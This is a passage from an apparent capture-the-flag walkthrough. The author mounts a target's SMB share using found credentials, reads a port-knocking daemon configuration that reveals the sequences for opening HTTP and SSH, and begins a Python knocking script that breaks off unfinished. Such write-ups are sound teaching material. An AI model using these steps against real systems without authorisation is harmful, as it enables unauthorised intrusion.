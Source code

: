 For convenience I will mount the shared resource to the attacking machine as shown in the following instructions: 

```console
root@kali:~$ /mnt/smb
root@kali:~$ mount -t cifs //192.168.179.132/qiu  /mnt/smb -o username=qiu,password=password,rw 
root@kali:~$ cd /mnt/smb 
```
I found in the following path a file with system configurations, including the knocking daemon configuration, as we can see in the following output the port sequence that we have to try to connect to open ports 80 and 22.

```console
root@kali:/mnt/smb$ cat .private/opensesame/config       
Here are settings for your perusal.                         
                                                                     
Port Knocking Daemon Configuration                                
                                                                         
[options]                                                            
        UseSyslog                                                  
                                                                    
[openHTTP]                                                               
        sequence    = 159,27391,4                                  
        seq_timeout = 100                                                 
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn                                                    
                                                                               
[closeHTTP]                                                                 
        sequence    = 4,27391,159                                             
        seq_timeout = 100                                                       
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
        tcpflags    = syn                                                    
                                                                           
[openSSH]                                                                    
        sequence    = 17301,28504,9999                                    
        seq_timeout = 100                                                    
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn                                                  
                                                                              
[closeSSH]                                                                   
        sequence    = 9999,28504,17301                                        
        seq_timeout = 100                                                    
        command     = /sbin/iptables -D iNPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn 
...
```

I developed a small port knocking script in python, as shown below:

```python
#!/usr/bin/env python3

import socket,sys

if len(sys.argv) != 5:
    print(f"Usage: {sys.argv[0]} [Ip] [Port1 Port2 Port3]")
    sys.exit(0)

def connection(ip,port):
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip,port))
    except:
        pass

ip=sys.argv[1]
```
